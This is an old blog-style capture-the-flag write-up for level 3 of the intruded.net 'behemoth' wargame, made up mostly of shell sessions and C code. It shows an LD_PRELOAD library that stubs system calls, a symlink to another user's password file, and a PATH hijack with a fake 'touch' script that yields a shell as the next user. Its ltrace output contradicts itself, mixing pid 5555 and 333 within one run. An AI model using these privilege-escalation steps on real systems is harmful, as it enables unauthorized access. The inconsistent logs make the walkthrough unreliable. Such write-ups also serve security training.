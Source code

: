 Title: intruded.net, behemoth: level 3
Date: 2011/09/27 22:32
Author: Ken Ko
Tags: intruded.net, behemoth, ltrace

Preliminary testing has shown that there's a <strong>sleep(2000);</strong> call within level3. Let's get rid of that. 

Oh, also, another note: level3 attempts to touch a random file in your current directory so <strong>this must be run from /tmp</strong> where we have write permissions. 

<code>
level3@behemoth:/tmp$ cat sleep.c
#include <stdlib.h>

int sleep(int n) {
        return 0;
}
level3@behemoth:/tmp$ !gcc
gcc -fPIC -shared -o sleep.so sleep.c
level3@behemoth:/tmp$ !expo
export LD_PRELOAD="/tmp/sleep.so"
level3@behemoth:/tmp$
level3@behemoth:/tmp$
level3@behemoth:/tmp$ /wargame/level3

level3@behemoth:/tmp$ ltrace /wargame/level3
__libc_start_main(0x80484a4, 1, 0xbffffab4, 0x80485c0, 0x8048570 <unfinished ...>
getpid()                                            = 2555
seteuid(1004)                                       = -1
sprintf("touch 2555", "touch %d", 2555)             = 10
__lxstat(3, "2555", 0xbffff990)                     = -1
unlink("2555")                                      = -1
system("touch 2555" <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
sleep(2000)                                         = 0
sprintf("cat ", "cat ")                             = 4
system("cat   2555" <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
+++ exited (status 0) +++
level3@behemoth:/tmp$
</code>

Hot.

Let's try to get rid of that sleep(), among other things:

<code>
level3@behemoth:/tmp$ cat sleep.c
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
//#include <unistd.h>

int lstat (const char *c, struct stat *s) {
        return 0;
}

int unlink (const char * c) {
        return 0;
}

pid_t getpid(void) {
        return 5555;
}

int sleep(int n) {
        return 0;
}
</code>

Now we have a fixed pid that gets returned so we know we'll be looking for <strong>/bin/333</strong>. 

<code>
level3@behemoth:/tmp$ export LD_PRELOAD="/tmp/sleep.so"
level3@behemoth:/tmp$ ls -lh 5555
lrwxrwxrwx 1 level3 level3 20 2011-09-15 03:57 5555 -> /home/level4/.passwd
level3@behemoth:/tmp$ ltrace /wargame/level3
__libc_start_main(0x80484a4, 1, 0xbffffa94, 0x80485c0, 0x8048570 <unfinished ...>
getpid()                                            = 333
seteuid(1004)                                       = -1
sprintf("touch 5555", "touch %d", 5555)               = 10
__lxstat(3, "5555", 0xbffff970)                      = 0
unlink("333")                                       = 0
system("touch 333" <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
sleep(2000)                                         = 0
sprintf("cat ", "cat ")                             = 4
system("cat   333"#!/bin/bash
whoami
/bin/sh
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
+++ exited (status 0) +++
level3@behemoth:/tmp$
</code>

Thing is, we now get a lot of permission denied; incredibly lame! But wait! What is this?

<em>system("touch 333"</em>

What if we had a script named touch... wouldn't it be run? Time to get a shell.

<code>
level3@behemoth:/tmp$ chmod +x touch
level3@behemoth:/tmp$ cat touch
/bin/sh
level3@behemoth:/tmp$ PATH="/tmp" /wargame/level3
sh-3.1$ /usr/bin/whoami
level4
sh-3.1$
</code>

Awesome possum; time to move on.
